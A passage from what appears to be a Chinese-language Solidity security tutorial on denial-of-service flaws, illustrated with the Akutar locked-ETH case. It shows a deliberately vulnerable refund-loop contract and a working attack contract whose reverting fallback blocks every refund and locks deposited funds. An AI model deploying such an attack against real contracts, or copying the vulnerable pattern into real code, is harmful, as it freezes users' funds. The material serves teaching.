 ```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.21;

// 有DoS漏洞的游戏，玩家们先存钱，游戏结束后，调用refund退钱。
contract DoSGame {
    bool public refundFinished;
    mapping(address => uint256) public balanceOf;
    address[] public players;

    // 所有玩家存ETH到合约里
    function deposit() external payable {
        require(!refundFinished, "Game Over");
        require(msg.value > 0, "Please donate ETH");
        // 记录存款
        balanceOf[msg.sender] = msg.value;
        // 记录玩家地址
        players.push(msg.sender);
    }

    // 游戏结束，退款开始，所有玩家将依次收到退款
    function refund() external {
        require(!refundFinished, "Game Over");
        uint256 pLength = players.length;
        // 通过循环给所有玩家退款
        for(uint256 i; i < pLength; i++){
            address player = players[i];
            uint256 refundETH = balanceOf[player];
            (bool success, ) = player.call{value: refundETH}("");
            require(success, "Refund Fail!");
            balanceOf[player] = 0;
        }
        refundFinished = true;
    }

    function balance() external view returns(uint256){
        return address(this).balance;
    }
}
```



这里的漏洞在于，`refund()` 函数中利用循环退款的时候，是使用的 `call` 函数，将激活目标地址的回调函数，如果目标地址为一个恶意合约，在回调函数中加入了恶意逻辑，退款将不能正常进行。

```text
(bool success, ) = player.call{value: refundETH}("");
```



下面我们写个攻击合约， `attack()` 函数中将调用 `DoSGame` 合约的 `deposit()` 存款并参与游戏；`fallback()` 回调函数将回退所有向该合约发送`ETH`的交易，对`DoSGame` 合约中的 DoS 漏洞进行了攻击，所有退款将不能正常进行，资金被锁在合约中，就像 Akutar 合约中的一万多枚 ETH 一样。

```solidity
contract Attack {
    // 退款时进行DoS攻击
    fallback() external payable{
        revert("DoS Attack!");
    }

    // 参与DoS游戏并存款
    function attack(address gameAddr) external payable {
        DoSGame dos = DoSGame(gameAddr);
        dos.deposit{value: msg.value}();
    }
}
```
